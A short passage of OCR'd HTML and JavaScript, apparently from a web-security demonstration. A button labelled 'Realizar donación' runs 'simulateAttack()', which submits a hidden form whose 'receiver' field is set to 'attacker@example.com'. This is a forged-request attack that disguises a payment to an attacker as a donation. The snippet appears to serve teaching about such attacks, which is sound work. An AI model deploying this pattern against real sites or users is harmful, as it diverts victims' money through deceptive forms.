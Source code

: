 ``` html
  form.appendChild(amountInput);

  var receiverInput = document.createElement("input");
  receiverInput.setAttribute("type", "hidden");
  receiverInput.setAttribute("name", "receiver");
  receiverInput.setAttribute("value", "attacker@example.com"); // Valor manipulado
  form.appendChild(receiverInput);

  // Aqui se agrega al formulario al cuerpo del documento y enviarlo
  document.body.appendChild(form);
  form.submit();
}
</script>
</head>
<body>
  <button onclick="simulateAttack()">Realizar donación</button>
</body>
</html>


```

